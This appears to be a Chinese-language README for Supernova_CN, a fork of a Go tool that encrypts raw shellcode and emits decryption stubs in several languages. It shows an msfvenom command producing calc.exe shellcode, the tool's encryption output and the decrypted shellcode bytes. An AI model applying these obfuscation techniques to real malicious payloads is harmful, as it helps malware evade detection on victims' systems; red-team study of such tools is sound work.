 # Supernova_CN
真正的 Shellcode 加密器（对比原版新增加了  CHACHA20, B64XOR, B64RC4, B64AES, B64CHACHA20 等加密方式和汉化帮助信息）感谢原作者 [@nickvourd](https://github.com/nickvourd) 的 [Supernova](https://github.com/nickvourd/Supernova) 以及他们的共同编写者

原始版本：https://github.com/nickvourd/Supernova


## Description
Supernova 是一个开源的 Golang 工具，它使用户能够安全地加密原始 shellcode。此外，它还提供将加密的 shellcode 自动转换为与各种编程语言兼容的格式，包括:
- C
- C#
- Rust
- Nim
- Go

它支持多种不同的密码，包括:
- ROT
- XOR
- RC4
- AES
- CHACHA20
- Base64XOR
- Base64XOR
- Base64RC4
- Base64AES
- Base64CHACHA20

此外，该工具使用选定的密码和语言生成解密函数，同时还提供如何有效使用它的说明。

Supernova 是用跨平台语言 Golang 编写的，可以在 Windows 和 Linux 系统上使用。

## 许可证

本工具使用 [![License: MIT](https://img.shields.io/badge/MIT-License-yellow.svg)](LICENSE) 许可证.

## 安装

要安装Supernova，请运行以下命令，或者下载[发行版本](https://github.com/yutianqaq/Supernova_CN/releases)
```
go build Supernova.go
```

### 命令行帮助

```


███████╗██╗   ██╗██████╗ ███████╗██████╗ ███╗   ██╗ ██████╗ ██╗   ██╗ █████╗
██╔════╝██║   ██║██╔══██╗██╔════╝██╔══██╗████╗  ██║██╔═══██╗██║   ██║██╔══██╗
███████╗██║   ██║██████╔╝█████╗  ██████╔╝██╔██╗ ██║██║   ██║██║   ██║███████║
╚════██║██║   ██║██╔═══╝ ██╔══╝  ██╔══██╗██║╚██╗██║██║   ██║╚██╗ ██╔╝██╔══██║
███████║╚██████╔╝██║     ███████╗██║  ██║██║ ╚████║╚██████╔╝ ╚████╔╝ ██║  ██║
╚══════╝ ╚═════╝ ╚═╝     ╚══════╝╚═╝  ╚═╝╚═╝  ╚═══╝ ╚═════╝   ╚═══╝  ╚═╝  ╚═╝

Supernova v1.0.0 - 真正的Shellcode加密器。
Supernova是一个开源工具，受MIT许可证保护。
由@nickvourd、@0xvm、@Papadope9和@yutianqaq用<3编写...
原版请访问https://github.com/nickvourd/Supernova了解更多信息...
汉化版本https://github.com/yutianqaq/Supernova_CN

Usage of Suprenova.exe:
  -d    开启 Debug 模式
  -enc string
        Shellcode加密方式 (例如, ROT, XOR, RC4, AES, CHACHA20, B64XOR, B64RC4, B64AES, B64CHACHA20)
  -guide
        开启引导模式
  -i string
        64位原始格式 Shellcode 的路径
  -k int
        加密的密钥长度 (default 1)
  -lang string
        转换(Nim, Rust, C, CSharp, Go)格式的Shellcode
  -o string
        输出文件名
  -v string
        Shellcode 的变量名称 (default "shellcode")
  -version
        展示 Supernova 当前的版本
```

# 使用方式

## 仅加密 Shellcode - XOR

这将输出 key 长度为 10 的多字节 xor shellcode

```
msfvenom -p windows/x64/exec CMD="calc.exe" -f raw -o calc.bin

./Supernova -enc xor -i calc.bin -k 10 -lang go -o calc_xor10.bin


███████╗██╗   ██╗██████╗ ███████╗██████╗ ███╗   ██╗ ██████╗ ██╗   ██╗ █████╗ 
██╔════╝██║   ██║██╔══██╗██╔════╝██╔══██╗████╗  ██║██╔═══██╗██║   ██║██╔══██╗
███████╗██║   ██║██████╔╝█████╗  ██████╔╝██╔██╗ ██║██║   ██║██║   ██║███████║
╚════██║██║   ██║██╔═══╝ ██╔══╝  ██╔══██╗██║╚██╗██║██║   ██║╚██╗ ██╔╝██╔══██║
███████║╚██████╔╝██║     ███████╗██║  ██║██║ ╚████║╚██████╔╝ ╚████╔╝ ██║  ██║
╚══════╝ ╚═════╝ ╚═╝     ╚══════╝╚═╝  ╚═╝╚═╝  ╚═══╝ ╚═════╝   ╚═══╝  ╚═╝  ╚═╝

Supernova v1.0.0 - 真正的Shellcode加密器。
Supernova是一个开源工具，受MIT许可证保护。
由@nickvourd、@0xvm、@Papadope9和@yutianqaq用<3编写...
原版请访问https://github.com/nickvourd/Supernova了解更多信息...
汉化版本https://github.com/yutianqaq/Supernova_CN

[+] Payload size: 276 bytes

[+] Converted payload to go language

[+] Generated XOR key: 0x86, 0xbe, 0xa8, 0x2e, 0x2b, 0x21, 0x42, 0xa6, 0x3a, 0x56

[+] Encrypted payload with xor

[+] Save encrypted shellcode file to /root/Tools-dev/Test/calc_xor10.bin

```

## 加密并输出解密方式 - XOR

追加 -guide 参数将输出加密后的 Shellcode 并输出加密方式。

```
./Supernova -enc xor -i calc.bin -k 10 -lang go -o calc_xor10.bin -guide


███████╗██╗   ██╗██████╗ ███████╗██████╗ ███╗   ██╗ ██████╗ ██╗   ██╗ █████╗ 
██╔════╝██║   ██║██╔══██╗██╔════╝██╔══██╗████╗  ██║██╔═══██╗██║   ██║██╔══██╗
███████╗██║   ██║██████╔╝█████╗  ██████╔╝██╔██╗ ██║██║   ██║██║   ██║███████║
╚════██║██║   ██║██╔═══╝ ██╔══╝  ██╔══██╗██║╚██╗██║██║   ██║╚██╗ ██╔╝██╔══██║
███████║╚██████╔╝██║     ███████╗██║  ██║██║ ╚████║╚██████╔╝ ╚████╔╝ ██║  ██║
╚══════╝ ╚═════╝ ╚═╝     ╚══════╝╚═╝  ╚═╝╚═╝  ╚═══╝ ╚═════╝   ╚═══╝  ╚═╝  ╚═╝

Supernova v1.0.0 - 真正的Shellcode加密器。
Supernova是一个开源工具，受MIT许可证保护。
由@nickvourd、@0xvm、@Papadope9和@yutianqaq用<3编写...
原版请访问https://github.com/nickvourd/Supernova了解更多信息...
汉化版本https://github.com/yutianqaq/Supernova_CN

[+] Payload size: 276 bytes

[+] Converted payload to go language

[+] Generated XOR key: 0xf8, 0x4f, 0x2c, 0x15, 0xd6, 0xcd, 0x30, 0x9f, 0xa0, 0xd1

[+] Encrypted payload with xor

[+] XOR decrytpion function has been saved to Program.go file

[+] Save encrypted shellcode file to /root/Tools-dev/Test/calc_xor10.bin

```



**Program.go**

```
┌──(root㉿kali)-[~/Tools-dev/Test]
└─#go mod init xor10

┌──(root㉿kali)-[~/Tools-dev/Test]
└─# go build Program.go                  

┌──(root㉿kali)-[~/Tools-dev/Test]
└─# ./Program 
XOR  Decrypted Payload:
0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52, 0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52, 0x20, 0x48, 0x8B, 0x72, 0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0, 0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0xE2, 0xED, 0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B, 0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48, 0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44, 0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41, 0x8B, 0x34, 0x88, 0x48, 0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0, 0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0x38, 0xE0, 0x75, 0xF1, 0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44, 0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44, 0x8B, 0x40, 0x1C, 0x49, 0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01, 0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A, 0x41, 0x58, 0x41, 0x59, 0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41, 0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48, 0xBA, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D, 0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B, 0x6F, 0x87, 0xFF, 0xD5, 0xBB, 0xF0, 0xB5, 0xA2, 0x56, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF, 0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0, 0x75, 0x05, 0xBB, 0x47, 0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89, 0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x2E, 0x65, 0x78, 0x65, 0x00
```





## 参考

- [D3Ext/maldev: Golang library for malware development](https://github.com/D3Ext/maldev)

- [nickvourd/Supernova: Real fucking shellcode encryption tool](https://github.com/nickvourd/Supernova)
